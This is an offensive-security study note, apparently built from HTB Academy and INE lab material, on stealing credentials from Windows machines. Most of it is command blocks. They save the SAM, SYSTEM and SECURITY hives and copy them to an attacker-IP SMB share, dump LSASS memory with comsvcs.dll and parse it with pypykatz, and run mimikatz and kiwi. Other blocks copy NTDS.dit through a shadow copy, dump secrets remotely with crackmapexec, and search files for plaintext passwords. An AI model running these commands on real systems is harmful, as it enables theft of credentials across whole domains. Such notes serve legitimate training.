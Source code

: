 - **tags:** #credentials #SAM #secrets
- ------------------
# Dumping Hashes from SAM
Targeted registries:
- *hklm\\sam*: Contains the hashes associated with local account passwords.
- *hklm\\system*: Contains the system bootkey, which is used to encrypt the SAM database.
- *hklm\\security*: Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.
Only administrators or user with **SeBackupPrivilege** can do the following:

```shell
reg save HKLM\sam sam.backup
reg save HKLM\system system.backup
reg save HKLM\security security.backup

copy sam.backup \\<atackers IP>\foldername\sam
copy system.backup \\<atackers IP>\foldername\system

impacket-secretsdump -sam sam -system system -security security LOCAL
```
*secretsdump* cannot dump the SAM hashes without the boot key (found inside the System Hive) because that boot key is used to encrypt & decrypt the SAM database.
# LSA Secrets
In addition to getting copies of the SAM database to dump and crack hashes, we will also benefit from targeting *LSASS*. The Local Security Authority Sub-System is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.
Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)
## Dumping LSASS Process Memory
Our goal now is to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets us extract cached credentials offline using our attack host.
### lsass.DMP via Task Manager
With access to an interactive graphical session with the target, we can use task manager to create a memory dump. Steps:
- *Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file*
### lsass.DMP Rundll32.exe & Comsvcs.dll Method
Grab the *lsass.exe PID*.
```shell
# via CMD
tasklist /svc | find "lsass"
# Via Powershell
Get-Process -name lsass
```
With an elevated PowerShell session, we can issue the following command to create the dump file:
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`).
### Dumping Secrets Using CrackMapExec
Alternatively we can attempt to dump the LSA secrets remotely (using an account with access to local privileges) using *crackmapexec*.
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
## Dumping LSA secrets with pypykatz
LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present. *Pypykatz is an implementation of Mimikatz written entirely in Python*. The fact that it is written in Python allows us to run it on Linux-based attack hosts.
```bash
pypykatz lsa minidump lsass.dmp
```
Output sections:
- **MSV**: authentication package in Windows that LSA calls on to validate logon attempts against the SAM database.
- **WDIGEST**: older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`. (clear-text credentials)
- **Kerberos**: LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos.
- **DPAPI**: Data Protection Application Programming Interface is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications.
## Dumping Credentials with Mimikatz or Kiwi
The *SAM* (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords. *Mimikatz* can be used to extract hashes from the *lsass.exe* (Local Security Authority SubSystem) process memory where hashes are cached. Alternatively, if we have access to a *meterpreter* session on a Windows target, we can utilize the inbuilt *meterpreter* extension *Kiwi*.
**Note:** Mimikatz will require elevated privileges in order to run correctly.
**Note:** In the INE labs Mimikatz is found in `/usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
## PoC
In a *meterpreter* session:
```bash
pgrep lsass
migrate <lsass number>
load kiwi
creds_all #dump administrator NTLM hash
lsa_dump_all #dumps all user NTLM hashes, SySKey, SAMKey
```
With *mimikatz*
```exe
privilege::debug #check if we have the required privileges
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords #will display the passwords of the logon users if they are cached in cleartext
```
### Walkthroughs:
- [[dumpingCredsWithKiwi.pdf]]
# Active Directory NTDS.dit FILE
*NTDS.dit* is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain.
## Manual Approach
Steps:
- Check if current user belongs to the *local admin* (`Administrators group`) or *Domain Admin* (`Domain Admins group`) (or equivalent) rights.
- Create a Shadow Copy of the C:\ drive.
```powershell
vssadmin CREATE SHADOW /For=C:
```
- Copy *ntds.dit* file from the shadow copy
```powershell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
## Using CrackMapExec
Alternatively, we may benefit from using CrackMapExec to accomplish the same steps shown above, all with one command.
```bash
crackmapexec smb 10.129.20.84 -u jmarston -p 'P@ssword!' --ntds
```
# Credential Hunting
- For finding specific files we can use *where*:
```shell
where /r C:\ *pass*
```
- For finding specific strings inside files:
```shell
cd C:\
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
- Use password gathering tools like [lazagne.exe](https://github.com/AlessandroZ/LaZagne)
- Unattended windows installation files (`C:\\Windows\Panther\Unattend.xml`,  `C:\Windows\Panther\Autounattend.xml`) passwords encoded in *base64*.